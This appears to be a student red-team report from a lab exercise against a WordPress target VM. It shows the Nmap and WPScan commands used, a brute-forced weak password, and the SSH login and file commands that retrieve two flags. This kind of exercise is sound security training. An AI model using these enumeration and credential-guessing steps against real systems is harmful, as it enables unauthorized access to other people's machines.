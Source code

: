 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
```
![NMAP scan](https://github.com/guerriericp/Final_Project/blob/main/Images/nmap_scan_final_project.png "NMAP scan")

This scan identifies the services below as potential points of entry:
- Target 1
 1. Port 22/TCP 	    Open 	SSH
 2. Port 80/TCP 	    Open 	HTTP
 3. Port 111/TCP 	Open 	rcpbind
 4. Port 139/TCP 	Open 	netbios-ssn
 5. Port 445/TCP 	Open 	netbios-ssn


The following vulnerabilities were identified on each target:
- Target 1
 1. User Enumeration
 2. Weak user password
 3. Misconfiguration of User Priviledges 

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate users of the targeted WordPress site
      - `$ wpscan --url http://192.168.1.110 --enumerate u`
    - User 'Michael' is our target
      - Using a brute force attack we are able to guess Michael's very simple password
      - The users password: michael
    - Finding 'Flag 1'
      - `ssh michael@192.168.1.110`
      - `pwd: michael`
      - `cd ../../`
      - `cd var/www/html`
      - `ls -l`
      - `grep -i 'flag1' service.html`
     
![flag1](https://github.com/guerriericp/Final_Project/blob/main/Images/flag_1redteam.png "Flag 1")
 
 - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - same exploit used on flag 1. While still SSH in user 'Michael' looking through other directories I was able to find flag 2.
    - Commands:
      - `ssh michael@192.168.1.110`
      - `pwd: michael`
      - `cd ../../`
      - `cd var/www`
      - `ls -l`
      - `cat flag2.txt`
     
![flag 2](https://github.com/guerriericp/Final_Project/blob/main/Images/flag_2redteam.png "Flag 2")
